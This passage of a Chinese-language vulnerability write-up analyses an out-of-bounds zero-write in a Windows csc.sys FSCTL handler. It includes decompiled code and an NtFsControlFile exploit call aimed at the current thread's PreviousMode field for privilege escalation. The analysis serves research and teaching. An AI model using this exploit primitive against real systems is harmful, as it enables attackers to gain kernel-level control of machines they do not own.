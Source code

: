 ```
NTSTATUS NtFsControlFile(
  HANDLE FileHandle,                 // 要操作的文件句柄
  HANDLE Event,                      // 指定一个事件，或NULL
  PIO_APC_ROUTINE ApcRoutine,        // 异步操作的APC回调，或NULL
  PVOID ApcContext,                  // APC回调的上下文参数
  PIO_STATUS_BLOCK IoStatusBlock,    // 操作结果状态块
  ULONG FsControlCode,               // 文件系统控制操作的代码
  PVOID InputBuffer,                 // 输入数据缓冲区，根据控制代码而定
  ULONG InputBufferLength,           // 输入数据的长度
  PVOID OutputBuffer,                // 输出数据缓冲区，根据控制代码而定
  ULONG OutputBufferLength           // 输出数据的长度
);

```

从函数原型中得知对应的 FSCTL`0x001401a3`是通过`NtFsControlFile` 的`FsControlCode`参数进行传递的。  
在`CscDevFcbXXXControlFile()`当传递对应的 FSCTL code 符合条件后进入代码核心操作，我们观察下面操作是如何进行越界写 0 的：

```
if ( *(_DWORD *)(a1 + 0x20C) == 0x1401A3 )
{
  v10 = *(_QWORD *)(a1 + 0x218);
  v4 = 0;
  *(_QWORD *)(a1 + 0xB8) = 0i64;
  *(_QWORD *)(v10 + 0x18) = 0i64; // 漏洞利用
}

```

可以看到`CscDevFcbXXXControlFile()`有两处写 0 操作：

1.  `*(_QWORD *)(a1 + 0xB8) = 0;`
2.  `*(_QWORD *)(*(_QWORD *)(a1 + 0x218) + 0x18) = 0;`

传入的参数 a1 是什么？  
![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1718524901364-5c181e8a-0834-4ba5-92be-d33c2318a726.png#averageHue=%23fbfaf9&clientId=u86bc8cdf-f6e2-4&from=paste&height=777&id=u9cc38561&originHeight=741&originWidth=699&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26714&status=done&style=none&taskId=uf7ffcb0e-5b2f-483c-ba30-380d1111e9d&title=&width=733.2000122070312)  
当我们传递`NtFsControlFile`的函数参数进行调用时，多个函数会根据参数进行处理，最后传给`csc!CscDevFcbXXXControlFile`的参数 a1 并非是我们传入的线程内核地址，而且是一个指向数据结构的指针，数据结构为：

```
CscDevFcbXXXControlFile Param Address:
    +0x0038 UpdateAndCaptureConnectionState Input Data Structure
    +0x020C FSCTL code
    +0x0218 NTFsControlFile Param Address

```

此处参数 a1 并非我们可控的，所以第一个写 0 处不可控；但是`a1+0x218`则是我们通过`NTFsControlFile`传入的地址，此处导致我们越界写 0 可控。  
因此我们此处构造的`pNtFsControlFile()`函数代码如下所示，其中 PreviousMode 的偏移为`0x232`，减去`0x18`来抵消掉等式中的增加`0x18`：

```
status = pNtFsControlFile(
    handle,
    NULL,
    NULL,
    NULL,
    &iosb,
    0x001401a3,
    (void*)(Curthread + 0x232 - 0x18), // 漏洞利用
    0,
    NULL,
    0);

```

